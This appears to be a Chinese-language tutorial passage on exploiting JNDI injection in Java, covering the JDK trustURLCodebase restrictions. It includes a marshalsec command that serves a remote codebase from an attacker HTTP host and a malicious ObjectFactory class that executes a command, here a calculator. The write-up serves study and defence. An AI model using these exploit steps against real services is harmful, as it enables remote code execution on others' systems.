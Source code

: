 ```java
new InitialContext().lookup(request.getParameter("q"));
```

当`lookup()`函数的值可控时，可以自己搭建恶意的`rmi/ldap`服务，客户端加载我们恶意的服务端类对象codebase，并创建实例，使得static代码块中的代码被执行。

oracle在jdk8u121使用`trustURLCodebase`限制了rmi对于codebase的远程加载，但是可以使用ldap绕过，但是8u191之后ldap同样不能使用。由此本文展开对于8u191之后的jndi注入的利用。

# JDK对JNDI的限制

```java
JDK 6u141、7u131、8u121之后：增加了com.sun.jndi.rmi.object.trustURLCodebase选项，默认为false，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。

JDK 6u211、7u201、8u191之后：增加了com.sun.jndi.ldap.object.trustURLCodebase选项，默认为false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。
```

# ****8u121之前****

## **使用RMI + JNDI Reference利用**

直接利用marshalsec发布RMI服务到1099

```java
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer  http://192.168.202.1:8000/#Evail
```

**限制版本：**JDK 6u132, JDK 7u122, JDK 8u121以下（不包括8u121）

在JDK 6u132, JDK 7u122, JDK 8u121版本开始

```java
com.sun.jndi.rmi.object.trustURLCodebase、
com.sun.jndi.cosnaming.object.trustURLCodebase 的默认值变为false
即默认不允许从远程的Codebase加载Reference工厂类
```

# ****8u191之前****

## **使用LDAP + JDNI Reference利用方式：**

- 新建一个恶意类并发布到http服务器
- 启动一个ldap服务器
- 控制客户端lookup()中的URL为我们的恶意LDAP地址

此方法在版本8u191（包括8u191）失效

**1.1 新建一个恶意类Evail，实现ObjectFactory接口：**

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class Evail implements ObjectFactory {
    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        String commond = "gnome-calculator";
        Runtime.getRuntime().exec(commond);
        return null;
    }
```